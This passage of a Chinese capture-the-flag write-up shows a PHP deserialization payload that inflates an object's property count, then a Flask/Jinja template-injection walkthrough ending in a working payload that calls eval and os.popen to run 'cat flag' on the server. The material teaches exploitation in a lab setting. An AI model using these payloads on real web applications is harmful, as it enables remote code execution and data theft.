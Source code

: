 得到结果：

```
O:4:&#34;Flag&#34;:3:{s:1:&#34;a&#34;;s:1:&#34;1&#34;;s:4:&#34;%00*%00b&#34;;s:1:&#34;2&#34;;s:7:&#34;%00Flag%00c&#34;;s:1:&#34;3&#34;;}
```

其中%00是一个空字符，%00*%00表示protected类型，%00Flag%00表示private类型。

&#34;Flag&#34;后面那个数字便是对象数量。按照上文的漏洞修改一下。

```
O:4:&#34;Flag&#34;:114514:{s:1:&#34;a&#34;;s:1:&#34;1&#34;;s:4:&#34;%00*%00b&#34;;s:1:&#34;2&#34;;s:7:&#34;%00Flag%00c&#34;;s:1:&#34;3&#34;;}
```

传入$interesting变量得到flag。

### 0x05 你要玩蛇吗

看到蛇，猜想和~~Arcaea~~Python有关。点进去用眼睛瞪，发现网页GET了一个name字段并显示在网页上。

使用BurpSuite的Repeater功能看到有一个Server：gunicorn字样，谷歌一下发现确实是一个python的webserver，猜测入手点是python。

众所周知（其实是别人告诉我的），有一个优秀的python web框架叫Flask，默认使用jinja引擎。熟练运用搜索引擎获得一个漏洞示例（下已改为题目格式）

```python
def cum(name):
	tp = &#39;{{name}}超喜欢玩蛇哦&#39;
	return render_template_string(tp, name=name)
```

其中render_template_string是jinja引擎的模板渲染函数。其中{{name}}表示name变量的值。那么如果我在浏览器地址栏中令/?name={{Fuc1()}}( 其中Fuc1()是一个函数)会发生什么呢？

**函数Fuc1()的返回值将会显示在页面中**

接下来几步涉及Python基础。

1. `__globals__`：每个python函数都含有一个`__globals__`字典，存储“在本函数中可以存储的全局变量”列表。其中一定有一个`__builtins__`变量。
2. `__builtins__`：我们知道，Python 需要 import 才能引用其他包的函数。但由于一部分函数实在过于常用，所以无需引入也能用。它们就是 `__builtins__` 字典中的函数。
    比如： `print, open, chr, len, abs, eval`
3. `eval`：Python的`eval`是把一个字符串当作代码来执行。

也就是我们需要找到一个函数`fun`，调用`fun.__globals__[&#39;__builtins__&#39;][&#39;eval&#39;]()`即可在网站上执行任意代码。

如何找到一个函数呢？搜索得到flask框架中有一个可以直接调用的函数`url_for()`。

那么我们需要执行什么代码呢？有如下语句：

`__import__(&#34;os&#34;).popen(&#34;...&#34;).read()`

作用是引入os并调用，返回程序输出。试试直接`cat`一下`flag`？

`/?name={{url_for.__globals__[&#39;__builtins__&#39;][&#39;eval&#39;](__import__(&#34;os&#34;).popen(&#34;cat flag&#34;).read())}}`

发现页面上出现了flag，好神奇哦。

### 0x06 给我康康你的照片
